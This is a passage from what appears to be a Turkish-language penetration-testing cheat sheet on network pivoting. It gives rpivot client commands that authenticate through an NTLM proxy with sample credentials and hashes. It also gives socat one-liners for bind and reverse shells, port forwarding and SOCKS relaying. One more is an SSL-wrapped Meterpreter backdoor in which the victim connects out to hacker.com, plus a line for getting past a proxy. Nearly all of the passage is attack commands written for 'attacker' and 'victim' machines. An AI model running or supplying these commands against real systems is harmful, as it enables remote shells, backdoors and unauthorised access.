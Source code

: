 ```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```
Pivot through **NTLM proxy**
```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### Bağlı shell
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```
### Ters kabuk
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
### Port2Port
```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```
### Port2Port üzerinden socks
```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```
### Meterpreter üzerinden SSL Socat
```bash
#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```

```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
```
**Kimlik doğrulaması yapılmamış bir proxy**'yi atlatmak için, kurbanın konsolundaki son satır yerine bu satırı çalıştırabilirsiniz:
```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```
[https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/](https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/)
